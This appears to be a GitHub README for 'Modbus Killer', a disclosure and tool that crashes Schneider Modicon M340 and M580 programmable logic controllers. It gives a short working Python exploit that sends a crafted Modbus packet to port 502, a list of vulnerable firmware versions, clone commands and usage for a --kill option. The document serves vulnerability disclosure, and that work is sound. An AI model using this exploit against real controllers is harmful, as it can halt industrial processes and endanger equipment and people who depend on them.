



#  [Tool] Modbus Killer
## [Schneider] Dos Modicon via Modbus Injection

PLC Modicon line ("m340" & "m580") suffer a denial of services upon receiving a simple request to the "modbus" protocol.


	[*] Exploit Title:       "Dos Modicon via Modbus Injection" 
	[*] CVE:                 2018-???? <-- soon !!!
	[*] CVSS Base Score v3:  8.6 / 10
	[*] CVSS Vector String:  AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H  
	[*] Date:                2/01/2018
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              Schneider Electric
	[*] devices(tested):     PLC Modicon m340 (v2.0 > v2.8) & modicom m580


 

### Exploit:

```
	import socket 

	client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	client.connect(("192.168.0.101",502)) 
	client.send( "\x44\x62\x00\x00\x00\x06\x00\x5a\x00\x20\x00\x00") 
	client.close()

```

***

## tested in:
	
	[+] m430
	BMX P34 2020 v2.0 (TELEMECANIQUE)         
	BMX P34 2020 v2.1                          
	BMX P34 2020 v2.2                          
	...                                        --
	BMX P34 2020 v2.4                          
	BMX P34 2020 v2.5                          
	BMX P34 2020 v2.6                          
	BMX P34 2020 v2.7                           
	BMX P34 2020 v2.8                          

	-------------------------------
	[+] m580

	BME P58 2020 v01.04
	BME P58 2020 v02.20
	BME P58 4040 v02.20
	BME P58 4040 v02.12


# TOOL: "Modbus Killer"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/modbusKiller.git
	usr@pwn:~$ cd modbusKiller

## help

	usr@pwn:~/$ python mdKiller.py --help

	usage: mdKiller.py [-h] [-v] [--sid SLAVEID] --host HOST [--port PORT]
                   [--check] [--kill]

	[+] DOS Modicon via Modbus Injection. ( CVE: 2018-???? )

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --sid SLAVEID  Slave ID (default 00)
	  --host HOST    Host
	  --port PORT    Port (default 502)
	  --check        Show device info
	  --kill         Check availability

	[+] Demo: mdKiller.py --sid 00 --host <target> [--check|--kill ]

***

## POCs:

[+] Poc device VULN:

	[*] CHECK

 	
	

	[*] KILL


	[*] RE-CHECK

 	


[+] Poc device NO VULN:

	[*] CHECK

 	
	

	[*] KILL

 	

